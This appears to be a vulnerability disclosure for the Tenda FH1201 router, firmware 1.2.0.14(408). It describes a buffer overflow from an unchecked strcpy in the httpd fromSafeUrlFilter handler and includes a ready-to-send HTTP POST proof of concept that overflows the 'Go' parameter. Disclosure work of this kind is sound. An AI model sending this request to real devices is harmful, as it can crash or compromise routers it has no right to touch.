


# fh1201 Vulnerability

Vendor:Tenda

Product:fh1201 

Version:1.2.0.14(408)

Vulnerability: buffer overflow

## Descriptions

We found an overflow vulnerability  in `httpd` :

In  fromSafeUrlFilter function,the router compare the `menufacturer` parameter.

When the value of `menufacturer` is `tenda`, the value of the `Go` will be stored in src.

<div  align="center"></div>

Finally,the function uses strcpy()to copy user-controlled data from the srcpointer to the fixed-size buffer dest_without verifying whether the source data fits within the destination buffer's capacity.

## Proof of Concept (PoC)

```http
POST /goform/SafeUrlFilter HTTP/1.1
Host: 192.168.6.2
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Referer: http://192.168.6.2/index.asp
Accept-Encoding: gzip, deflate, br
Cookie: SESSION_ID=2:1769648739:2
Connection: keep-alive
Content-Length: 372

menufacturer=tenda&Go=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

## Overcome
<div  align="center"></div>

